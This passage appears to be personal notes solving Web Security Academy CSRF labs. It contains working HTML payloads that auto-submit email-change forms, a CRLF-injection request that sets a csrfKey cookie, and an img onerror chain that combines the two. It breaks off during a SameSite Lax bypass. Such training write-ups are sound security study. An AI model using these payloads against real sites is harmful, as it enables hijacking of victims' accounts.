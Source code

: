 4. Refresh on either account page to generate a new CSRF token
5. Construct a malicious page setting the CSRF token to a valid and unused token
```html
<html>
	<body>
		<form action="https://0a5c005804c94759ba15fe9a006d00f8.web-security-academy.net/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="owned@evil.net" />
			<input type="hidden" name="csrf" value="8K8g89H3Ev8YNgSrRLheMsxMjR8J08My" />
		</form>
		<script>
			document.forms[0].submit();
		</script>
	<body>
</html>
```
# CSRF where token is tied to non-session cookie
1. Login > Change email
2. There is a `csrfKey` cookie connected to the CSRF token when trying to change email address
3. Using the search function sets a cookie with the value of the last thing submitted
4. Insert a URL-encoded carriage return and new line to inject a new `Set-Cookie` directive and make it the same value as your valid `csrfKey` in your session
```
GET /?search=testing123%0d%0aSet-Cookie:%20csrfKey=aRfXIxBYlxROAUegbxCa5JHjMlE6lwMz%3bSameSite=None
```
- This returns the following response
```
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=testing123
Set-Cookie: csrfKey=aRfXIxBYlxROAUegbxCa5JHjMlE6lwMz;SameSite=None; Secure; HttpOnly
```
5. Host the following malicious page on the exploit server
```html
<html>
	<body>
		<form action="https://0a1a004d0454b0fc80ad26f4007d0028.web-security-academy.net/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="owned@evil.net" />
			<input type="hidden" name="csrf" value="lHETNosctwO9vAFwlG6CvkubSiZw6WHT" />
		</form>
<img src="https://0a1a004d0454b0fc80ad26f4007d0028.web-security-academy.net/?search=testing123%0d%0aSet-Cookie:%20csrfKey=aRfXIxBYlxROAUegbxCa5JHjMlE6lwMz%3bSameSite=None" onerror=document.forms[0].submit() ">
	<body>
</html>
```
# CSRF where token is duplicated in cookie
  1. Exact same process as the process above
  2. Just make sure the CSRF token value is the same as the cookie
  3. Use the same exploit from above
# SameSite Lax bypass via method override
1. Login
	1. Notice that `Set-Cookie` does not have the `SameSite=None` attribute any more
	2. We also know the victim uses chrome which will set the SameSite policy to Lax if not specified meaning we need to use a GET request
2. Change email
3. Send request to repeater
4. Change method to GET
	1. Returns 405 Method Not Allowed
	2. Only POST is allowed